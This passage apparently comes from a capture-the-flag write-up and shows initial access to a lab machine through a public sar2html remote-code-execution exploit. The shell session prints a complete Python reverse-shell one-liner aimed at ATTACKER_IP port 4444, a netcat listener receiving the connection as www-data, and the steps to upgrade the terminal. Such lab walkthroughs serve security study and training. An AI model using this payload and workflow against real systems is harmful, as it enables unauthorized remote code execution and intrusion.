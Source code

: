 ![](testpage.png)


## Gaining Access
Upon searching for exploits for `sar2html`, I came across [this exploit](https://www.exploit-db.com/exploits/49344) that enables RCE based on some _plot_ feature. Let's see if it works:
```shell-session
$ python3 49344.py
Enter The url => http://TARGET_IP/joomla/_test
Command => python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKER_IP",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'

##################################################
# On another session
$ nc -nvlp 4444
listening on [any] 4444 ...
connect to [ATTACKER_IP] from (UNKNOWN) [TARGET_IP] 53630
www-data@Vulnerable:/var/www/html/joomla/_test$ 

<CTRL+Z>

$ stty raw -echo && fg

[1]  + continued  nc -nvlp 4444
                               export TERM=xterm-256-color
www-data@Vulnerable:/var/www/html/joomla/_test$ whoami
www-data
```
